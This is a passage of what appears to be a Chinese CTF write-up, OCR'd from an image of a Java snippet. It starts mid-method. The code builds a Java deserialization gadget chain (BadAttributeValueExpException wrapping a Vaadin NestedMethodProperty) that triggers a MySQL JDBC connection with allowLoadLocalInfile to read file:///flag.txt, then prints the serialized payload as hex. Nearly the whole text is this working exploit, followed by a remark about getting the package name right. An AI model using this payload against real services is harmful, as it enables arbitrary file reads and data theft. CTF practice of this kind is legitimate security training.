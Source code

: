 ```plain
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(bos);
        out.writeObject(obj);
        out.flush();
        return bos.toByteArray();
    }
    public static String bytesToHexString(byte[] bArray) {
        StringBuffer sb = new StringBuffer(bArray.length);
        for (byte b : bArray) {
            String sTemp = Integer.toHexString(255 & b);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }


    public static void main(String[] args) throws Exception {

        MyBean myBean =new MyBean();
        myBean.setDatabase("mysql://xxx:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#");

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(myBean, "Connection");
        pItem.addItemProperty("Connection", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

        // 序列化并输出 HEX 序列化结果
        System.out.println(bytesToHexString(ser(exception)));

    }
}
```

这里有一个很重要的东西，就是包名一定要得对 (CTFer 的痛)
